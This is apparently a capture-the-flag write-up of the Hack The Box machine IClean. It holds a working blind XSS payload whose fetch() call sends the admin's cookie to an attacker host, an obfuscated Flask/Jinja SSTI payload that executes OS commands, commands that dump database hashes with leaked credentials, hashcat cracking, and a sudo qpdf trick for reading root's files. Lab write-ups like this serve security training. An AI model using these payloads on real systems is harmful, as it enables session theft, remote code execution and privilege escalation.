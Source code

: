 # IClean

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
└─➜ nmap -p22,80 $IP -sCV                                                                                                                                                                 [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 21:55 IST
Nmap scan report for capiclean.htb (10.129.43.189)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```

* Directory scan wasn't that imp on this machine (so skipping it)

## Web -> XSS

![image](https://gist.github.com/assets/56447720/9603e459-2368-4d3f-ac06-b794210d0b77)

Give dummy data and click on submit, after submitting we can see that there's a message "team will get back to you"

![image](https://gist.github.com/assets/56447720/2f04d4ba-0984-4893-8072-ecfefe5c7eaf)

Hmm, feel like XSS, (BLIND XSS)

* Blind XSS

We can send a payload and wait for the admin to view our response and we can get their cookies.

* Payload

```js
<img src=x onerror=fetch("http://IP:PORT/"+document.cookie);>
```

* Response

```js
└─➜ python3 -m http.server 9001          
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.43.189 - - [08/Apr/2024 22:13:40] code 404, message File not found
10.129.43.189 - - [08/Apr/2024 22:13:40] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk <<SNIP>> ODk0YTRdDBh9dWK-w5cJYTlg HTTP/1.1" 404 -

```

And now we are admin

![image](https://gist.github.com/assets/56447720/1bfe2f2e-850c-47e0-8807-d7b5eb9e56ca)

## Web -> SSTI

AAAHHH, the website is build with python flask, the first bug i can thought of is SSTI.

![image](https://gist.github.com/assets/56447720/29d31fe3-e6bc-4dce-b50b-9af840681a2b)

* The invoice generator is vulnerable to SSTI

![image](https://gist.github.com/assets/56447720/bfee3a1b-841b-4420-9b44-904bbb058908)

#### SSTI -> RCE

![image](https://gist.github.com/assets/56447720/6368cc9a-68aa-4c18-9fae-1d7f1534aa9f)

* Encode the payload to base64 and send it to the server

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

![image](https://gist.github.com/assets/56447720/6b5b422a-1dfd-4866-9fa1-cc3e5675458d)

## www -> User

* we have found db creds

```py
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

* I used mysql cli to view data from the db

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_capiclean
quote_requests
services
users

www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee

```

The reason i choose to use mysql cli is because the tty session of rev shell is not good to handle sql data, it doesn't work better basically

* Crack the hash

```bash
└─# hashcat -a 0 -m 1400  iclean-consuela.hash ../wordlists/rockyou.txt
hashcat (v6.2.6) starting
<<SNIP>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:<<REDACTED>>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494da...6927aa
<<SNIP>>

Started: Mon Apr  8 17:41:28 2024
Stopped: Mon Apr  8 17:41:33 2024
```

## User -> root

* Login with ssh and get user.txt

#### Sudo -l

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Sorry, try again.
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf

```

* Documentation

{% embed url="https://qpdf.readthedocs.io/en/stable/cli.html" %}

```bash
consuela@iclean:/tmp$ sudo qpdf --empty --add-attachment /root/root.txt -- pwn.pdf
consuela@iclean:/tmp$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages
```

After we bring pwn.pdf in our local machine (through, scp, python3 server) we can get contents of root.txt

You can take id\_rsa in order to get root shell on the box.

Machine pwned!!

## \_\_\_\_heapbytes still pwning

